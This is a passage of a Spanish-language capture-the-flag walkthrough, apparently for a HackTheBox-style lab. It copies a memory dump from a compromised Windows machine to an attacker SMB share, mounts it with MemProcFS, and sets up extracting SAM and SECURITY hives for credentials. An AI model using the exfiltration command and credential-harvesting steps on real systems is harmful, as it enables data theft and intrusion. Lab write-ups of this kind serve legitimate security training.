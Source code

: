 Esto nos indica que ya estamos conectados, ahora ya podremos copiar el archivo `memory.7z` en nuestro pc.

```
copy MEMORY.7z \\10.10.14.11\mySMB\MEMORY.7z
```
Esto empezara a descargar el archivo, es bastante grande a si que tengan calma, mientras se termina de descargar veamos que es un dumpeo de memoria

### Memory DUMP 

El dumpeo de memoria es una copia completa del contenido de la memoria RAM del sistema. En este caso lo hacen para que un analista pueda recontruir el estado del sitema justo antes del fallo y identificar la causa, para nosotros del lado del atacante nos viene perfecto ya que podemos aprovecharnos y sacar informacion confidencial.

- **¿Como podemos tratarlo desde nuestro equipo?**

Para el tratamiento de nuestro dumpeo, estaremos usando [MemProcFS](https://github.com/ufrisk/MemProcFS) que es una herramienta forence, utilizada para montar y analizar un memory dump o la misma memoria viva de un sistema como si fuera un sitema de archivos virtual en linux.

- **¿Como se usa?**

Primero tenemos que descomprimir, nuestro archivo .7z, el archivo es muy pesado a si que tocara esperar un poco.

```
7z x MEMORY.7z
```

Ahora nos queda crear el directorio en la ruta tmp, yo lo llamare `/tmp/brain_dump` y ahi montaremos todo nuestro sistema de archivos. Para poder analizar lo de una manera mucho mas optima 

```
./memprocfs -device MEMORY.DMP -mount /tmp/brain_dump
```
Esto tomara como dispositivo el descompirmido de memory.7z y lo montara en un sistema de archivos mucho mas sencillo de analizar en la rutya que le acabamos de especificar.

- **Analizando la montura**

Cuando nos dirigimos a `/tmp/brain_dump/`, nos encontraremos con la estrucura tipica que genera memprocfs, basicamente divide de la siguiente manera.



-    **name/ y pid/** → son tus mejores amigos para buscar procesos.
-    **registry/** → para credenciales y configuraciones.
-    **sys/** → para drivers y rootkits.
-    **forensic/ y misc/** → para metadatos y contexto.

En este momento lo que mas nos intereza es encontrar credenciales y poder seguir desplazandonos lateralmente por la maquina a si que echemos le un vistazo a **registry/**


### Impacket-secretsdup 

Esta herramienta nos permite como su nombre lo dice extraer secretos de windows, desde archivos offline (SAM/SYSTEM/NTDS) y de varias cosas mas, pero ahora mismo es la funcion que nos intereza, dentro de el archivo registry/hive_files encontraremos dos archivos, uno SAM y el otro SECURITY.
